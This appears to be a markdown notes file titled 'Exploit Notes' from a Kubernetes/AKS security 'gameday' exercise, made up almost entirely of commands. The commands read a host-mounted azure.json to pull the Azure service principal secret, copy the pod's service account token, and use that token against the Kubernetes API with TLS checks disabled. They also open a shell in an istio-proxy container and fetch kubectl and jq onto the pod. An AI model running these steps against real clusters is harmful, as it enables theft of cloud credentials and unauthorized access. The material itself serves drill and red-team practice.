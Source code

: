 ﻿# Exploit Notes

## Host mount
cat /meshconfig/azure.json > azure.json
echo 'Azure SPN: ' $(cat azure.json | jq '. | {s:.subscriptionId, c:.aadClientId, p:.aadClientSecret, t: .tenantId}')




## Without Success: Cluster Admin
./kubectl get pods --server='https://kubernetes.default.svc.cluster.local' --token=$(cat token.txt) --insecure-skip-tls-verify=true


kubectl get pods --server='https://gameday-ex-gameday-rg-a4baed-bb1c2c10.hcp.westeurope.azmk8s.io' --token=$(cat token.txt) --insecure-skip-tls-verify=true


KUBE_TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" \
      https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/default/pods/$HOSTNAME



      $KUBERNETES_SERVICE_PORT = 443


      /var/run/secrets/kubernetes.io/serviceaccount/ca.crt


      --token-auth-file=/var/run/secrets/kubernetes.io/serviceaccount/token 


./kubectl get pods --server='https://10.0.0.1:443' --token=$(cat token.txt) --insecure-skip-tls-verify=true 



# Useful

## New AKS
az aks create -n gameday-exploit-cluster2 -g gameday-rg --generate-ssh-keys --attach-acr gamedayexploitreg
az aks get-credentials -n gameday-exploit-cluster2 -g gameday-rg

## Bash
k exec -it blackboxgameengine-868d84466c-9jmbf --container istio-proxy -- /bin/bash

## Install kubectl
curl -LO "https://storage.googleapis.com/kubernetes-release/release/$(curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt)/bin/linux/amd64/kubectl"
chmod +x ./kubectl
cat /var/run/secrets/kubernetes.io/serviceaccount/token > token.txt

## JSON Parser
curl -Lo jq "https://github.com/stedolan/jq/releases/download/jq-1.6/jq-linux64"
chmod +x ./jq
export PATH=$PATH:/app